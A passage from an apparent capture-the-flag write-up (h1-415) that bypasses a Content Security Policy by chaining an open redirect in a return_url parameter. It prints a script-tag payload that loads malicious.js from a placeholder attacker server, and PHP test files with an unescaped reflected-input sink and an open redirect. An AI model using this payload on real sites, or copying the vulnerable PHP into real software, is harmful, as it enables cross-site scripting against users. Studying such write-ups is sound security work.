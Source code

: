 Google points out that if there is JSONP, Angular or user uploaded files the `script-src self` could be problematic. Until now we had not seen any of these. Moreover, for `script-src https://raw.githack.com/mattboldt/typed.js/master/lib/` Google ponders to make sure that this URL doesn't serve JSONP replies or Angular libraries and indicates that all other rules are safe.

Some questions arises here:
* What is this Githack?
* Does typed.js have some malicious code in master branch?

For the first questions we can get the answer just going to http://raw.githack.com/ and understand that this _serves raw files directly from GitHub, Bitbucket or GitLab with proper Content-Type headers_. Maybe we can find a bug there? No! It is **Out of Scope**! Also, after some investigation we can conclude that typed.js does have nothing interesting for us.

### What? Is it an 0day? 

One thing to take note is that after logout the application redirects us to `/login?return_url=/converter`. Furthermore, this `return_url` can be used in other endpoints and when logged in the application redirects immediately, in other words, this is an open redirect.

Are you thinking with me?

1. `script-src self` allows code from `https://h1-415.h1ctf.com`;
1. There is an open redirect;
1. And what if I just use `<script src="https://h1-415.h1ctf.com/documents?return_url=http://MY_SEVER/malicious.js></script>"`?

```
Content Security Policy: Blocked http://MY_SERVER/malicous.js (“script-src”).
The resource from “https://h1-415.h1ctf.com/documents?return_url=http://MY_SERVER/malicous.js” was blocked due to MIME type mismatch (“text/html”) (X-Content-Type-Options: nosniff).

```

Nooo! What a sad message! I told this to a friend (@pimps) and he replied saying that in his computer it works! WHAT? It is a lie, for sure! Then he sent me a screenshot: Using Chrome! Oh my god! I am doing it wrong, how am I trying to hack something using a browser other than the victim? Do you remember the User-Agent? Headless Chrome! Ok, let's test this on Chrome... Perfect, it really works... But, why?

Ok, time to deploy some docker with PHP and test this "Chrome feature":

`docker run -d -p 80:80 --name my-apache-php-app -v "$PWD":/var/www/html php:7.2-apache`

File csp.php:
```php
<?php
header("Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: *");
?>
<html><body><?= $_GET['s'] ?></body></html>
```

File redir.php
```php
<?php
header('Location: ' . $_GET['r']);
header('Content-Type: text/html; charset=utf-8');
header('X-Frame-Options: SAMEORIGIN');
header('X-XSS-Protection: 1; mode=block');
header('X-Content-Type-Options: nosniff');
```
